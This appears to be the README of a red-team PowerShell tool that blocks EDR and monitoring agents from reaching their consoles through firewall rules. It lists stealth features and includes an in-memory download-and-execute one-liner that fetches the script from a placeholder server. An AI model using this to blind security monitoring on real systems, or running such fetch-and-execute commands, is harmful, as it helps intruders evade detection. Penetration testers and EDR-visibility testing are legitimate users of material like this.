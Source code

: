 # PSisolation

## Overview
PS-Isolation is a specialized tool designed to prevent EDR (Endpoint Detection and Response) and monitoring processes from communicating with their consoles. By leveraging Windows Defender Firewall rules and PowerShell automation, this script dynamically identifies and blocks network traffic for specific monitoring agents and processes. 

I also wrote this [article](https://blog.y00ga.lol/PERSO/PUBLISH/Article+perso/PSisolation%2C+in+Cyberspace+No+One+Can+Hear+You+Scream#New-NetFirewallRule) if you want to learn a bit more about it

## Key Features
- Automated Detection: Identifies EDR and monitoring tools running on the system based on predefined and customizable keywords.
- Dynamic Firewall Rules: Implements outbound traffic filtering for detected processes, preventing telemetry from reaching monitoring consoles.
- Customizable rule : Choose to block a specific processes.
- Stealth : Operates entirely in PowerShell, which you can import in memory without touching disk, ensuring minimal system footprint.
- Simple Cleanup: Quickly revert all custom rules and restore normal operations with a single command.

## Use Cases
- Isolate specific processes or tools to prevent them from reporting telemetry during engagements.
- Test EDR visibility and response.
- Enumerate potential exclusions on system without triggering alerts

## Important Notes
- Educational Purposes Only: This tool is intended for research, penetration testing engagements, and educational purposes        
- Requires Administrative Privileges to create rules

## Getting Started

- Import the script in memory from a remote HTTP server 

````
IEX(New-Object Net.WebClient).downloadString('http://xxx.xxx.xxx/PSisolation.ps1')
````

- Block outgoing traffic by running directly

````
Block-MonitoringProc
````
https://github.com/user-attachments/assets/a8b62fc7-5132-477b-9489-c569c41bcc78

- or a specific process you want with : 

````
Block-SpecificProcessTraffic -ProcessPath <executablefull path>
````

- When you're done, run this to remove all rules created by the tool :

````
Unblock-AllFilters
````


https://github.com/user-attachments/assets/a647de1e-9314-4d73-886c-ba8f4cbb7356


